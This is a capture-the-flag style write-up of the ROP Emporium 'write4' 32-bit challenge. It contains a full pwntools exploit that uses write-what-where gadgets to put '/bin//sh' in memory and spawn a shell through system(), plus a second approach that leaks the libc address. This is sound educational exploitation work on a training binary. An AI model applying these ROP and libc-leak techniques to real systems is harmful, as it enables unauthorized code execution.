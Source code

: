 ```yaml
---
layout: post
title: ROP Emporium Challenge 3 - Write4 (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *We'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.*
<!--more-->

# write432

Link: https://ropemporium.com/challenge/write4.html


----------------------

## Approach 1: Write-What-Where Gadgets

### 1. Calculating RIP overwrite offset

First, we check the offset is still the same sending 41 "A" characters:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write432/images/Screenshot_1.jpg)



### 2. Write-what-where gadgets

"Frequently, you’ll want to use a ROP chain in order to write something into memory. You may want to place the string “/bin/sh” into memory in order to use it as a parameter for system(), or perhaps overwrite a Global Offset Table (GOT) entry in order to redirect execution. (...). 

A common write-what-where gadget is mov <[register]>, <register>. In Intel syntax, this means that the contents of the second register will be placed into the dereferenced pointer stored in the first register. Note the square brackets surrounding the register name, as the square brackets indicate dereferencing.

If you know you’ll want to write something to memory at some point, you may want to start by locating these write-what-where gadgets and then determining if you can control those registers through the use of other gadgets." ([source](https://trustfoundry.net/basic-rop-techniques-and-tricks/))

```
mov <[register]>, <register>

mov <[pointer to a writable area of memory]>, <contents you want to write into memory>
```

We can find all these gadgets using:

```
python /root/tools/ROPgadget/ROPgadget.py --binary write432 | grep mov | grep "\["
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write432/images/Screenshot_2.jpg)

We have these *Write-What-Where* gadgets:

- *mov dword ptr [edi], ebp* (0x08048670) -> **writewhatwhere = 0x08048670**

Then we search for gadgets that could control EDI and EBP:

- *pop edi ; pop ebp ; ret* (0x080486da) -> **pop_edi_pop_ebp = 0x080486da**

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write432/images/Screenshot_3.jpg)



### 3. Writable memory areas

Next we need to figure out where to write in memory. The best option would be the .data segment. Let’s get the address of the “.data” section in the binary. Also, the .bss section is writable:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write432/images/Screenshot_4.jpg)

Let us take as writable memory address the address 0x804a028, where .data starts -> **writable_memory = 0x804a028**


```
mov [edi], ebp

mov [0x804a028], "/bin//sh"
```



### 4. Creating the exploit

As we are working with 32 bits, we will first send "/bin" and then "//sh" (4 characters each):

```
rop += p32(pop_edi_pop_ebp) + p32(writable_memory) + "/bin" 
rop += p32(writewhatwhere)
rop += p32(pop_edi_pop_ebp) + p32(writable_memory+4) + "//sh"
rop += p32(writewhatwhere)
```

After this, knowing the string "/bin//sh" will be located in *writable_memory*, we can make the same that in the previous challenge "split32": 

```
rop += p32(system) + p32(exit) + p32(writable_memory)
```

### 5. Final exploit

Finally, the exploit is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'write432'
p = process('./'+binary_name)
elf =  ELF(binary_name)

system = elf.sym["system"] 
log.info("System address (.plt): " + hex(system))
pop_ebp         = 0x080486db
pop_edi_pop_ebp = 0x080486da
writewhatwhere  = 0x08048670
writable_memory = 0x804a028
exit            = 0x080484e8

rop =  "A"*44
rop += p32(pop_edi_pop_ebp) + p32(writable_memory) + "/bin" 
rop += p32(writewhatwhere)
rop += p32(pop_edi_pop_ebp) + p32(writable_memory+4) + "//sh"
rop += p32(writewhatwhere)
rop += p32(system) + p32(exit) + p32(writable_memory)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

And it works!:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/3_write432/images/Screenshot_5.jpg)


--------------



## Approach 2: Libc leakage approach

The second approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call

```
payload = [140 bytes buffer] + junk + [main()] + [puts@got]
```


### Rop 1: Leaking puts address

First we will use the "puts()" function, which is present in the 

First we will use the "puts()" function, which is present in the binary, to print the address in the section .got.plt of a function. In this case we will print the address of the same function "puts()", calling it using its address in .plt section and setting its address in .got.plt as the first and only argument if the function.

```
OFFSET = "A"*44
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p32(PUTS_PLT) + p32(MAIN_PLT) + p32(puts_GOT)
```


### Calculating libc base address

We will take the output, where the address has been printed, and will parse it. Then, knowing the offset of the "puts" function, we can calculate the base address of libc.

```
leak = u32(p.recvline()[:4])
libc.address = leak - libc.symbols["puts"]
```

### Rop 2: system("/bin/sh")

Finally, we will call the function "system" in the libc file, given that we already know the base address and the offset of the functions in these files are constant (they change between types of libc but the offset of the functions in the same libc file is the same). We will search for the string "/bin/sh" and set it as the first and only argument of the "system()" function.

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = "\x12"*4 # this can be anything

rop2 = OFFSET + p32(SYSTEM) + EXIT + p32(BINSH)
```


--------------

References:

- Write in memory: https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf. 

- About wruite-what-where: https://trustfoundry.net/basic-rop-techniques-and-tricks/

- Another write-what-where exploit: https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/

- Libc leakage: https://medium.com/hackstreetboys/encryptctf-2019-pwn-write-up-4-of-5-6fc5779d51fa

